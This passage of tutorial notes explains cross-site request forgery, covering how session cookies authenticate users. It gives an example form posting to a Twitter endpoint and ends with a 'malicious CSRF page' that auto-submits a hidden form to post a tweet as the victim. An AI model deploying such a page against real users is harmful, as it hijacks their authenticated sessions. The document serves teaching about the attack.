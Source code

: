 **Mechanisms**

- Most modern web apps authenticate users and manage user sessions using session cookies.
  - When you login, the web app sends your browser a session cookie and this cookie is used to prove your identity to the server.
- When you login the server sends your browser the session cookie via an HTTP response header called `Set-Cookie`
  - ex: `Set-Cookie: session_cookie=YOUR_SESSION_COOKIE;`
  - Your browser receives, stores, and then sends the session cookie via the `Cookie` HTTP request header in every request: `Cookie: session_cookie:YOUR_SESSION_COOKIE;`
  - The cookie acts as a constant authentication check to perform all requests that would require the user to be authenticated (change passwords, make posts, etc.).
- Below is an example of CSRF vulnerable HTML:

```
<html>
  <h1>Send a tweet.</h1>
  <form method="POST" action="https://twitter.com/send_a_tweet">
    <input type="text" name="tweet_content" value="Hello world!">
    <input type="submit" value="Submit">
  </form>
</html>
```

- Breakdown:
  - `<h1>` tag denotes a first-level HTML heading.
  - `<form>` tag defines the beginning and end of an HTML form.
    - `POST` method attribute means the form will perform a POST request.
    - `action` attribute tells the POST attribute where to send the post request.
    - `<input>` tags specify an input field where users can enter data.
      - The first is a "text" input tag named "tweet_content" and the value (or what the user input) is "Hello World."
      - The second is an input button that will "Submit" the user input.
- The Post request for this would look something like this:

  ```
  POST /send_a_tweet
  Host: twitter.com
  Cookie: session_cookie=YOUR_TWITTER_SESSION_COOKIE

  (POST request body)
  tweet_content="Hello world!"
  ```

- The vulnerability is that any site, not just Twitter, can initiate the request.
  - If you hosted this HTML on your own site and your site then posts to twitter, your browser will automatically include your Twitter session cookies in requests to Twitter.
- Here's a more realistic malicious CSRF page:

  ```
  <html>
    <iframe style+"display:none" name="csrf-frame">
      <form method="POST" action="https://twitter.com/send_a_tweet"
      target="csrf-frame" id="csrf-form">
        <input type="text" name="tweet_content" value="Follow @vickieli7 on twitter!">
        <input type='submit' value="Submit">
      </form>
    </iframe>

    <script>document.getElementById("csrf-form").submit();</script>
  </html>
  ```
